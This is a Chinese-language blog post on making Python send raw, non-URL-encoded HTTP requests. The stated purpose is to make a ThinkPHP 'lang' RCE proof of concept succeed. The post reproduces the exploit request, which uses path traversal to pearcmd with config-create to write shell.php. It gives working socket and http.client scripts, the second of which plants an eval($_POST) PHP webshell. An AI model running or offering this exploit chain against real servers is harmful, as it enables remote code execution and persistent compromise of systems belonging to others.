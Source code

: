 ```yaml
---
author: Noel
pubDatetime: 2023-3-26T23:42:31.000+08:00
modDatetime: 2023-3-26T23:42:31.000+08:00
title: Python 不使用 Urlencode 编码发送请求内容的解决方案
featured: false
draft: false
tags:
  - Coding
  - Python
description: 
   Python 不使用 Urlencode 编码发送请求内容的解决方案...
---
```



## **前言**

讲道理, 这要求还挺离谱的，属于是不按协议出牌了.

以前两个月出的 `thinkphp lang rce`  的 `poc` 为例:

```
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

如果使用 `Python` 的 `requests` , 会默认将`< >` 进行`urlencode` 编码,导致不能成功写入shell.

## **正文**

### **socket**

使用默认的`socket`发送原生`HTTP`请求包就能够避免`urlencode`编码问题,示例代码如下:

```
import socket

# Accept-Encoding: gzip, deflate
RAW_REQUEST_TEMPLATE = '''GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: 172.17.11.113:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close

'''

# host_info, raw_request = parse_url_and_raw_request(url)
host_info = parse_url_and_raw_request(url)

raw_request = RAW_REQUEST_TEMPLATE.replace("\n", "\r\n")

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((host, port))
    s.sendall(raw_request.encode())

    # Receive the server's response
    response = s.recv(1024)
    print(response.decode())
```

以上代码有两个注意事项:

1. **必须**将原生`HTTP` 请求中的 `\n` 使用 `\r\n` 代替, 否则会出现`bad request` 报错. 这里踩了一个大坑,卡了很久,希望有同样需求的师傅们特别注意一下.
2. 关于最后一行的`response.decode()`. 如果原生`HTTP`请求中没有使用`Accept-Encoding: gzip, deflate`等允许客户端接受的加密类型 请求头,默认使用 `decode()`函数解密就行了, 如果使用了上诉请求头, `Accept-Encoding: gzip, deflate` 为例,就需要使用 `gzip`函数来解密.代码如下:

```
import gzip
response = s.recv(1024)
data = gzip.decompress(response).decode("utf-8")
```

### **http.client**

这个方法是`ChatGPT`告诉我的, 在`socket` 的`\n` 没有替换之前一直卡住了, 然后`CHATGPT`告诉了我这个解决方案.

关键代码如下:

```
import http.client
import gzip

HEADERS = {
    "Content-type": "text/plain",
    "Upgrade-Insecure-Requests": 1,
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Connection": "close",
}

def make_request(host:str,port:int, path:str, method:str="GET", body=None, headers=None):
    conn = http.client.HTTPConnection(
        host,
        port
        )
    conn.request(method, path, body=body, headers=headers)
    response = conn.getresponse()
    conn.close()
    data = response.read()
    data = gzip.decompress(data).decode("utf-8")

    return data

if __name__ == "__main__":
    data = make_request(
        host,
        port,
        f"/?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=@eval($_POST['{webshell_pass}'])?>+{file_name}",
        headers=HEADERS
        )

```

注意事项同 `socket` 的第二点:

如果原生`HTTP`请求中没有使用`Accept-Encoding: gzip, deflate`等允许客户端接受的加密类型 请求头,默认使用 `decode()`函数解密就行了, 如果使用了上诉请求头, `Accept-Encoding: gzip, deflate` 为例,就需要使用 `gzip`函数来解密